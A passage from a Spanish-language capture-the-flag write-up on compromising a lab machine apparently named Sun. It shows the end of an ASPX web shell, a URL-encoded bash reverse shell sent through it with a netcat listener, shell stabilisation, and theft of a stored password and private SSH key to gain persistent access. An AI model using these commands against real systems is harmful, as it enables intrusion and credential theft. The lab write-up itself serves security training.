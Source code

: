 ```console
        proc.Start();
        
        string output = proc.StandardOutput.ReadToEnd();
        Response.Write(output);
        proc.WaitForExit();
    }
    catch (Exception ex)
    {
        Response.Write("Error: " + ex.Message);
    }
}

</script>
```
Ejecutamos un comando como whoami para ver la respuesta del servidor:
```console
$ curl http://10.0.2.5:8080/last_reverse_shell.aspx?cmd=whoami
```
![image](https://github.com/Koh4kU/Writeups/assets/82893511/c7e4f8f6-b171-4fe1-acda-bcabf0f1ddc5)
Tenemos respuesta del servicio por lo que hemos conseguido vulnerarlo a través de un RCE. Para un tratamiento más cómodo, nos enviamos una reverse shell a un puerto que dejaremos en escucha (443 por ejemplo):
```console
$ nc -nlvp 443
```
Nos mandamos la reverse shell:
```console
$ curl http://10.0.2.5:8080/last_reverse_shell.aspx?cmd=bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.0.2.5%2F443%200%3E%261
```
De esta forma recibimos la shell y podemos empezar con el proceso de obtención de las flags. Antes del siguiente apartado, podemos hacer un tratamiento de la shell para así poder enviar señales cómo ctrl+c, ctrl+z... y no perder la shell:
```console
$ script /dev/null -c bash
$ ctrl+z
$ stty raw -echo;fg
$ reset xterm
$ export TERM=xterm
$ export SHELL=bash
```
Ahora obtenemos una shell en condiciones y podemos proceder con el siguiente apartado. Recorremos el home del usuario y podemos visualizar la flag: [punt4n0 flag](https://github.com/Koh4kU/Writeups/blob/main/Vulnyx/Sun/flags/user.txt). Probamos lo mismo con el home de root, pero no tenemos permisos.
### Persistence/Maintaing access ###
Debido a que no tenemos un acceso "limpio" a la máquina, debemos comprometer la contraseña del usuario del sistema o acceder mediante clave pública. Buscando sobre el directorio home del usuario nos encontramos con un archivo que se llama "remember_password". Dentro de este archivo vemos una posible contraseña, por lo que probamos a entrar por ssh pero la máquina tiene restringido este acceso y nosotros como punt4n0 no tenemos permisos de modificar el archivo de configuración de ssh. Pero, nos encontramos con un directorio oculto llamado ".ssh" el cual dentro, tiene una clave privada RSA que podemos intentar utilizar para acceder por ssh. Nos copiamos la clave en nuestra máquina y la guardamos en un archivo: [id_rsa](https://github.com/Koh4kU/Writeups/blob/main/Vulnyx/Sun/contents/id_rsa).  
```console
$ ssh -i id_rsa punt4n0@10.0.2.5
```
![image](https://github.com/Koh4kU/Writeups/assets/82893511/d158d46a-2362-4ec9-9a2f-f73b1bd9779a)
Nos pide un passphrase, que si recordamos, podría ser la contraseña que obtuvimos del archivo de "remember_password", por lo que la introducimos y hemos obtenido acceso por ssh. Ahora podemos acceder cuándo queramos con un acceso más "limpio" que una reverse shell.